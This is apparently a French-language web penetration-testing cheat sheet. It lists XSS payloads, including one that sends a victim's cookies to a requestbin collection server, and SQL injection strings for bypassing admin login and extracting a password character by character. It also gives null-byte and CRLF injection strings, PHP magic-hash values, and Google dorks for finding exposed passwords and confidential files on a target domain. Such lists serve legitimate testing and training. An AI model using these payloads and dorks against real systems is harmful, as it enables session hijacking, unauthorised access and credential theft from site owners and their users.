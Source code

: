# XSS

- &lt;script&gt;alert(1)&lt;/script&gt; *(le payload de base pour tester si la faille est présente)*
- &lt;img src=x onerror=alert(1) /&gt; *(une alternative si le mot clef “script” est bloqué)*
- &lt;script&gt;$.get(“[https://votrerequestbin.com?cookie=”.concat(document.cookie)](https://votrerequestbin.com?cookie=%E2%80%9D.concat%28document.cookie%29 "https://votrerequestbin.com?cookie=%E2%80%9D.concat(document.cookie)"), function(response){ console.log(response);});&lt;/script&gt;

**Lien utile :**

https://public.requestbin.com/

Permet d’obtenir un serveur disposant d’une URL accessible sur internet et affichant toutes les requêtes reçues. S’utilise généralement pour s’envoyer un cookie via une faille XSS.

&nbsp;

# Injection SQL

- admin’;# *(pour essayer de se connecter avec le compte Admin sans renseigner de mots de passe)*
- admin’;–
- admin";#
- admin’;–
- ’ OR 1=1;#
- ’ OR 1=1;–
- toto’ OR (SELECT SUBSTRING(password, 1, 1) FROM users WHERE login=‘admin’) = ‘a’;# *(puis tester, b, puis c, etc et si le résultat retourne quelque chose, c’est qu’on a trouvé la 1ère lettre, on peut alors passer à la lettre suivante et recommancer.*

# Null Byte (fin de chaîne de caractère)

- %00
- \\x00

https://www.thehacker.recipes/web/inputs/null-byte-injection

# CRLF (retour à la ligne)

- %0A
- %0a
- %0D
- %0d
- %0A%0D
- %0a%0d

# Password payloads (magic hashs)

- \[\] (MD5 & SHA1)
- 240610708 (MD5)
- 10932435112 (SHA1)
- TyNOQHUS (SHA256)

Lien utile:

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/bb71d4ad141bcffa87d21035a2bcbbd2f2818e45/Type Juggling/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/bb71d4ad141bcffa87d21035a2bcbbd2f2818e45/Type%20Juggling/README.md)

&nbsp;

# Autres liens utiles de manière générale pour le pentest

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master
- https://book.hacktricks.xyz/welcome/readme
- https://cheatsheet.haax.fr/
- https://github.com/kkrypt0nn/wordlists
- https://gchq.github.io/CyberChef/
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

&nbsp;

# Google Dorks

intitle:"index of" "ovpn"

(@domain-cible.com OR domain-cible.fr) ("password" OR "mot de passe") (filetype:xls OR filetype:txt)

inurl:github.com "wordlist"

filetype:pdf ("confidentiel" OR "ne pas diffuser") "domain-cible.com"

site:pastebin.com ("password" OR "combolist")

https://www.exploit-db.com/google-hacking-database
